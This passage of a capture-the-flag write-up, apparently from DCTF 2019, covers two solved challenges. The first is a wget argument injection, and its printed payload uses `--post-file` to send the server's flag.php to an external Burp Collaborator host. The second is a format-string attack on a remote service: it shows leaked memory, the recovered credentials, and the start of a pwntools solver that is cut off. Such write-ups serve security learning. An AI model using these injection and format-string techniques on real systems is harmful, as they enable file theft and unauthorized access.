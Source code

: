 Tried spaces to bypass the escaping. It worked.

Used `wget -O` to change the path of download and got to use `.php` files by appending `-v`, bypassing the "sneaky" filter. But php files aren't executed. Tried to insert a .htaccess file. Didn't work.

Then I remembered wget can send files. Used `--post-file=../../flag.php` to my burp collaborator and got the flag.

```
https://2dg6gkgn3ll0p5sl1psl7o58dzjq7f.burpcollaborator.net/test.jpg --post-file=../../flag.php -v
```


get-access (101p): Pwn/Rev
==================

```
Can you pwn this?

Target: 206.81.24.129:1337
Author: Andrei
```

Tried format string attack. %s works. no binary. tried to dump memory with `%x` and pwntools

After dumping some memory I found

```
[+] Opening connection to 206.81.24.129 on port 1337: Done
'\x00\x00\x00\x00\x00\x00$_TH1S1STH'
[*] Closed connection to 206.81.24.129 port 1337
[+] Opening connection to 206.81.24.129 on port 1337: Done
'34W3S0M3P4sSw0RD'
[*] Closed connection to 206.81.24.129 port 1337
[+] Opening connection to 206.81.24.129 on port 1337: Done
'F0RY0UDCTF2019_\x00'
```

Used that to login and got the flag

```
Enter username:$_TH1S1STH34W3S0M3P4sSw0RDF0RY0UDCTF2019_
Enter password:$_TH1S1STH34W3S0M3P4sSw0RDF0RY0UDCTF2019_
Greetings, $_TH1S1STH34W3S0M3P4sSw0RDF0RY0UDCTF2019_!
Flag is: DCTF{BD8C664E74EB942225EFB74CFD76EC4B2FDA0C37A2D567B707AA1407781FF77F}
```

solver

```python
#!/usr/bin/env python2
from pwn import *

def console_output():
    data = p.recvline()
    return data

def send_data(payload):
    p.sendline(payload)

def wait_for_prompt(sentence):
    data = p.recvuntil(sentence, timeout=1)
    data = data.strip()
    return data

if __name__ == "__main__":
    for i in range(1, 200, 4):
        p = remote('206.81.24.129', 1337)
        data = wait_for_prompt('username:')
        if data == '':
```